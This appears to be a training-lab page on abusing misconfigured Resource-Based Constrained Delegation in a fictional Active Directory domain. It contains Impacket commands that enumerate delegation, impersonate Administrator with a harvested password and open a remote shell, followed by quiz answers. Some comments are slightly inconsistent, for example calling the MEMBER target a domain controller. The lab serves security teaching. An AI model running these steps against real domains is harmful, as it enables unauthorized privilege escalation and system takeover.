

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/RBCDAbuse/index.html · generator: mkdocs

# RBCD Abuse
We've seen how both unconstrained and constrained delegation can be abused in this guide. Misconfigured Resource-Based Constrained Delegation can also be abused. Misconfigurations include allowing a low-privileged user to hold delegation rights to sensitive services, much like what happens in the Constrained Delegation Abuse section.

Let's take a look at which delegation rights are set in the domain, and see if some low-privileged user can delegate tickets to sensitive services:
```
findDelegation.py NORTH.ALTAIR.LOCAL/skyler.white:Password123 -target-domain north.altair.local
```

We see that saul.goodman can delegate tickets to any service hosted by MEMBER. This means that the user can impersonate any other user while accessing this server, through means of the S4U2User and S4U2Proxy extensions. Fortunately for us, we've been able to retrieve this user's credentials from its own user account description attribute that the user forgot to delete. Now, we can use Saul's credentials and access the MEMBER CIFS service as the administrator, for example, compromising the MEMBER machine.

```
#retrieve a ticket for the CIFS service in member as the administrator
getST.py -spn 'CIFS/member' -impersonate Administrator -dc-ip '192.168.122.10' 'north.altair.local/saul.goodman:beTTer2caLL2me'
#set the krb5ccname environment var to the new ccache file
export KRB5CCNAME=/home/ubuntu/Administrator.ccache
#use the ticket to access the domain controller through a shell as the administrator
wmiexec.py -k -no-pass north.altair.local/administrator@member
#now you've gained access to the MEMBER machine and can execute commands through the CIFS service
whoami
```

!!! question 
    What is the risk of misconfigured RBCD?
??? success "Answer"
     If a low-privileged account is granted delegation rights to a sensitive machine, it can abuse Kerberos extensions (S4U2Self + S4U2Proxy) to impersonate any user, including domain administrators, when authenticating to that machine, and access any service. This effectively lets the attacker gain privileged access without needing the admin’s password or hash.
!!! question
    Which is the most granular type of delegation between Constrained and RBCD?
??? success "Answer"
    Constrained delegation is more granular, since in CD, an administrator determines to which specific services a service can delegate tickets to. In RBCD, a service account defines which other accounts can delegate tickets to it. The service account may host many different services, and RBCD allows delegation to any of these, while CD would only allow delegation to specific services.
